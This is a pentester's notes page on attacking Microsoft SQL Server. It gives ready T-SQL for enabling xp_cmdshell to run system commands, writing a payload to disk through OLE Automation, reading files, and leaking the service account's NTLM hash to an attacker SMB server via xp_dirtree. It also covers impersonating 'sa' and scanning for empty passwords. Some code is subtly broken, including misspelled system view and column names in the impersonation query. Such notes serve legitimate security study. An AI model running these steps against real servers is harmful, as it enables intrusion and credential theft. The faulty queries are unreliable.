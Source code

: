 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
*Microsoft SQL* is a closed-source DBMS initially written for windows (it can run on Linux and MacOS now though). It has strong native support for `.NET`.

*SQL Server Management Studio* (*SSMS*) can be included in the installation of MSSQL. It is a standalone client application that allows for remote configuration of MSSQL.

**Standard Port:** 
- 1433/tcp - default MSSQL server port
- 1434/udp
- 2433/tcp - MSSQL in 'hidden' mode

## How it works
### Authentication Mechanisms
- *Windows authentication mode* : integrates with Windows/Active Directory for its users and groups who are trusted to log in to SQL server. Integrates with the SSO so users don't need to present additional credentials.
- *Mixed mode* : Supports Windows/AD accounts as well as holding its own SQL Server accounts. Usernames and passwords pairs are stored on the SQL server.

## Configuration
### Default Databases
- *master* : system information for an SQL server
- *model* : template database for all new databases created
- *msdb* : SQL server agent uses this database to schedule jobs & alerts
- *tempdb* : stores temporary objects
- *resource* : read-only database containing system objects included with SQL server

Unless configured, the MSSQL service will typically run as `NT SERVICE\MSSQLSERVER`. Connections can be done through Windows Authentication and by default encryption isn't enforced.

## Potential Capabilities
- MSSQL clients might not be using an encrypted connection to the MSSQL server
- Self-signed certificates might allow you to spoof them and make a connection
- Weak or default `sa` credentials. Sometimes it may be forgotten to delete this account.
- System command execution
- Reading/Writing files on disk
### RCE
The extended stored procedures (`xp_cmdshell`) allows us to execute system commands via SQL. It is *disabled by default* but can be enabled using the [Policy-Based Management](https://docs.microsoft.com/en-us/sql/relational-databases/security/surface-area-configuration) or by executing [sp_configure](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option). The windows process spawned by `xp_cmdshell` has the same privileges as the SQL Server service account. `xp_cmdshell` operates synchronously.
```sql
1> xp_cmdshell 'whoami'
2> GO

output
-------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

If it is disabled, we can change it via `sp_configure`:
```sql
-- To allow advanced options to be changed
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options
RECONFIGURE
GO

-- To enable the feature
EXECUTE sp_configure 'xp_cmdshell', 1
GO

-- To update the currently configured value for the featuer
RECONFIGURE
GO
```

> There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry.

### Writing Files
We can write files with [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, but this could lead to us being able to execute our file through another service.
```sql
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO

sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO
```
```sql
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACReate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, '<path>', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<payload>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
```

### Reading Files
By default, we can read any file on the OS that the account has access to.
```sql
SELECT * FROM OPENROWSET(BULK N'<path>', SINGLE_CLOB) AS Contents
GO
```

### Stealing the MSSQL Service Account Hash
Using [[Responder]] or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket) we can utilise either of the `xp_subdirs` or `xp_dirtree` *undocumented* stored procedures. They utilise SMB to retrieve a list of child directories under a parent dir on the file system. If we point one of these procedures to our SMB server, we can force the SQL Server to authenticate and send the NTLMv2 hash.
```sql
1> EXEC master..xp_dirtree '\\<SMB_SERVER>\share'
2> GO

1> EXEC master..xp_subdirs '\\<SMB_SERVER\share'
2> GO
```

### User Impersonation
The `IMPERSONATE` permission allows you to take on the permissions of another user. This can lead to privilege escalation. Sysadmins can impersonate any user by default but for non-privileged users, permissions must be granted explicitly. To identify users we can impersonate with:
```sql
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principles b
ON a.grantor_principle_id = b.principle_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```
We can check our user for sysadmin (a return value of `0` indicates we do NOT have the role, a `1` means we do):
```SQL
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```
Impersonating another user is done via:
```sql
EXECUTE AS LOGIN = 'sa'
<CMD>
GO
```
> You should run this in the masterDB as all users have access to this db and will prevent an error - `USE master`
## Enumeration Checklist

| Goal                               | Command(s)                                                                                                                                                                                                                                                                                          | Refs                                                                                                                  |
| ---------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------- |
| Nmap script scan                   | sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=[PORT],mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p [PORT] [IP] |                                                                                                                       |
| Metasploit scanner for information | scanner/mssql/mssql_ping                                                                                                                                                                                                                                                                            |                                                                                                                       |
| mssqlclient                        | python mssqlclient.py [user]:[pass]@[ip] -windows-auth                                                                                                                                                                                                                                              | [cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)                     |
| CLIs                               | $ sqsh -S [IP] -U [user] -P [pass]<br><br>C:\\> sqlcmd -S [IP] -U [user] -P [pass]                                                                                                                                                                                                                  | [sqsh](https://en.wikipedia.org/wiki/Sqsh)<br><br>[sqlcmd](https://docs.microsoft.com/en-us/sql/tools/sqlcmd-utility) |
> If using Windows authentication you must specify a domain or a hostname otherwise it will assume it is SQL Server Authentication.
> Eg. `<SERVER_NAME>\\<ACCOUNT_NAME>` (for local) or `.\\<ACCOUNT_NAME>` (for domain)
### Nmap Scripts
- ms-sql-info
- ms-sql-empty-password
- ms-sql-xp-cmdshell
- ms-sql-config
- ms-sql-ntlm-info
- ms-sql-tables
- ms-sql-hasdbaccess
- ms-sql-dac
- ms-sql-dump-hashes